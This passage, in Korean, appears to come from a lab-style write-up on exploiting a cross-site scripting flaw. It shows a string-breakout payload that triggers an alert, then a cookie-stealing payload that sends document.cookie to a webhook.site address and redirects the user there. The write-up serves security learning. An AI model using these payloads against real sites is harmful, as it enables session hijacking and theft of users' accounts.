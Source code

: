 ```js
]');alert('취약')//
```

위 페이로드를 입력한 결과, **`취약`이라는 메시지를 포함한 alert 창이 정상적으로 출력**되었다.

위 취약점을 이용하여 **쿠키를 탈취하는 악성 스크립트를 삽입**할 예정이다.

**일단 페이로드의 정상 작동 여부를 확인하기 위해, 본인의 쿠키 값을 Webhook으로 전송하는 테스트를 먼저 수행하였다.**

이번에는 쿠키 값을 수신한 후, 특정 페이지로 리다이렉트하는 방식으로 공격을 진행할 것이다.

```html
]');new+Image().src="https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01?cookie="%2Bdocument.cookie;location.href="https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01";//&pw=123123
```

**위와 같이 페이로드를 작성한 후, 실행 결과:**

![xss6 redirect](/assets/screenshots/stored-reflected-xss/xss6_redirect.png)

쿠키 전송이 완료되면, 페이로드 내 `location.href`에 의해 사용자는 지정된 페이지로 리다이렉트된다.
